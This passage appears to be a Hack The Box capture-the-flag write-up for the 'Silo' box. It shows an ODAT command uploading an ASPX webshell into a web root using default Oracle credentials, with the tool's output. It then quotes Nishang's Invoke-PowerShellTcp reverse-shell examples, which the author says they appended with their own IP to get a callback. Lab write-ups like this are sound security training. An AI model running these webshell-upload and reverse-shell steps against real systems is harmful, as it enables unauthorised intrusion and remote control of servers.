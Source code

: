 ```bash
SYS			       XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS			       XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.
```

## Getting WebShell

We can read and Write Files to the box. If you look at ODAT Github [image](https://github.com/quentinhardy/odat/blob/master-python3/pictures/ODAT_main_features_v2.0.jpg) it tells us which to use to upload a file. And I also mentioned `--sysdba` just to give some privileges.

```bash
root@kali:/opt/odat# python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xw0lf.aspx /usr/share/webshells/aspx/cmdasp.aspx
odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

[1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot folder like 0xw0lf.aspx on the 10.10.10.82 server
[+] The /usr/share/webshells/aspx/cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the 0xw0lf.aspx file
```

Its working, time to get shell

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%202.png)

I used [Nishang](https://github.com/samratashok/nishang)

> Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.
This not only load the module but also the shell give me a callback.
